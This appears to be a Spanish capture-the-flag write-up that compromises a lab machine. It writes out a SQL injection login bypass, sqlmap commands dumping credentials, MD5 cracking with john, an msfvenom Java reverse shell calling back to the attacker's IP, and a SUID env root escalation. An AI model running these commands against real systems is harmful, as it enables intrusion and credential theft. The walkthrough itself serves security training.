

- Tags: #sqli #sqlmap #john #scp #java #env
____
para esta maquina aplicamos el típico escaner de nmap el cual nos revelo los siguientes puertos.
____

___
podemos ver que tenemos servicios de samba, ssh y una web. 

echemos un vistazo a la web para ver que tal.
____

____
al no tener credenciales probaríamos claves por defecto como admin:admin y demas.

pero una vez que las probamos todas vemos que no funciona. por lo que ahora aplicaremos una inyección sql para ver que tal se comporta la pagina.

si aplicamos la típica inyección:

```sql
' or 1=1; -- -
```

Desglose de la query:

1. **`'`**: Este símbolo cierra la cadena de texto anterior en la consulta original.
2. **`or 1=1`**: Esta condición siempre es verdadera. Al agregarla, se asegura que la consulta siempre devuelva resultados, sin importar la condición original.
3. **`;`**: Finaliza la instrucción SQL.
4. **`--`**: Indica que el resto de la línea es un comentario en SQL, por lo que cualquier cosa que siga es ignorada por el motor de la base de datos.

por lo que si es vulnerable a esta inyección podremos acceder sin proporcionar contraseña.

_____

____
hemos accedido a una pagina que ya nos muestra lo viene siendo un usuario, dylan.

el siguiente paso sera aplicar un ataque de slqi y verificaremos si es vulnerable en otros aspectos.

nos ayudaremos de la herramienta sqlmap la cual automatiza el proceso.

primero debemos saber a las bases de datos para ello aplicaremos el siguiente comando.

```sql
sqlmap --url http://172.17.0.2 --dbs --batch --forms 
```

este comando nos permitirá saber las bases de datos, ademas de probar por los formularios aplicando todas las opciones por defecto.
_____

____
podemos ver que tenemos 6 base de datos, ahora eligiremos una y comprobaremos sus tablas para posteriormente comprobar sus columnas.

vamos agregando parámetros al comando base, ya que tenemos la base de datos seleccionada le diremos que nos muestre las tablas de esa base de datos.

```sql
sqlmap --url http://172.17.0.2 -D user --tables --batch --forms
```

____

___
como vemos tenemos una sola tabla users, ahora debemos aplicar el parámetro para saber el numero de columnas de la tabla users.

```sql
sqlmap --url http://172.17.0.2 -D user -T users --columns --batch --forms 
```

____

____
ahora vamos a dumpear las columnas para obtener los datos.

```sql
sqlmap --url https://172.17.0.2 -D register -T users -C passwd,username --dump --batch --forms 
```

______

____
ahora tenemos unas credenciales, si intentamos acceder con ssh a la maquina con estas credenciales, no vamos a poder.

aun nos queda pendiente el servicio de samba por lo que utilizando el smbclient podremos intentar acceder al mismo.

si aplicamos el siguiente comando se smbclient podemos probar si las credenciales son validas 

```shell
smbclient //172.17.0.2/shared -U <usuario>%<contraseña>
```
____

_____
entramos y tenemos un fichero .txt que nos descargaremos con el comando get.

si observamos el contenido del archivo nos damos cuenta que tiene un hash, si le aplicamos el comando hashid nos dirá que es MD5 por lo que debemos aplicar fuerza bruta con john para así trata de descifrarlo.

```shell
john --format=raw-md5 --wordlist=<diccionario> hash.txt
```

___

______
ahora si podemos intentar acceder con ssh, pero no con el usuario dylan.

cuando accedimos al servicio de smb y descargamos el archivo ese archivo tenia un nombre (augustus) ese nombre lo usaremos como usuario para ingresar por ssh.

una vez dentro aplicaremos el comando sudo -l puesto que tenemos la contraseña.

____

_____
observamos que podemos ejecutar java como el usuario dylan, por lo esto nos sirve para pivotar de usuario.

encontramos una pagina que nos enseña como explotar esta vulnerabilidad.

no dice que debemos crear un archivo .jar con msfvenom el cual sera un tipo de reverse shell, por lo le configuraremos un puerto y nuestra IP. 

```shell
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.102 LPORT=443 -f jar -o shell.jar
```

posteriormente debemos subir ese archivo a la maquina victima, como estamos conectados por ssh podemos transferir el archivo con scp. 

```shell
scp <archivo> augustus@172.17.0.2:/tmp
```

ya tenemos el archivo en la maquina victima, el siguiente paso es ponernos a la escucha con netcat y después ejecutar el siguiente comando.

```shell
sudo -u dylan /usr/bin/java -jar /tmp/shell.jar
```

ganaremos acceso como dylan mediante la reverse shell que hemos subido, estamos a la escucha con netcat y obtenemos la conexion. 

haremos el tratamiento de la tty y aplicaremos el comando para buscar permisos SUID y ver que encontramos.

____

___
nos aprovecharemos del archivo env para realizar la escalada de privilegios. 

aplicando el comando.

```shell
./env /bin/sh -p
```

y de esa forma obtendremos root
